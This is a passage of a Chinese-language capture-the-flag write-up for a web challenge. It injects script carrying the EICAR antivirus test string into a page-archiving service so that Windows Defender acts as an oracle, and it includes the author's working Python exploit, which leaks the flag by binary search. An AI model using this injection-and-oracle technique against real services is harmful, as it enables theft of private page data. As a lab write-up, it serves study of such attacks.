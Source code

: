 由于我们可以控制url和username，我们构造如下参数：

```
url=http://127.0.0.1/flag?a=<script>[script]</script><body>
username=</body>
```

则可以使生成的文件以被Windows Defender识别。其中`[script]`的内容如下：

``` html
<script>f=function(n){eval('X5O!P%@AP[4\\\\PZX54(P^)7CC)7}$$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$$H+H'+{${c}:'*'}[Math.min(${c},n)])};f(document.body.innerHTML[${idx}].charCodeAt(0));</script><body>
```

其中`${c}`是猜测的字符，`${idx}`是body中的字符的索引。对每个字符，我们使用二分搜索来加速搜索速度。最终作者给出的exp如下：

``` python
import requests

URL = "http://192.168.122.78" # changeme

def randstr(n=8):
    import random
    import string
    chars = string.ascii_uppercase + string.ascii_lowercase + string.digits
    return ''.join([random.choice(chars) for _ in range(n)])

def trigger(c, idx, sess):
    import string
    prefix = randstr()
    p = prefix + '''<script>f=function(n){eval('X5O!P%@AP[4\\\\PZX54(P^)7CC)7}$$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$$H+H'+{${c}:'*'}[Math.min(${c},n)])};f(document.body.innerHTML[${idx}].charCodeAt(0));</script><body>'''
    p = string.Template(p).substitute({'idx': idx, 'c': c})
    req = sess.post(URL + '/gyotaku', data={'url': 'http://127.0.0.1/flag?a=' + p})
    return req.json()

def leak(idx, sess):
    l, h = 0, 0x100
    while h - l > 1:
        m = (h + l) // 2
        gid = trigger(m, idx, sess)
        if sess.get(URL + '/gyotaku/' + gid).status_code == 500:
            l = m
        else:
            h = m
    return chr(l)

sess = requests.session()
sess.post(URL + '/login', data={'username': '</body>'+randstr(), 'password': randstr()})

data = ''
for i in range(30):
    data += leak(i, sess)
    print(data)
```
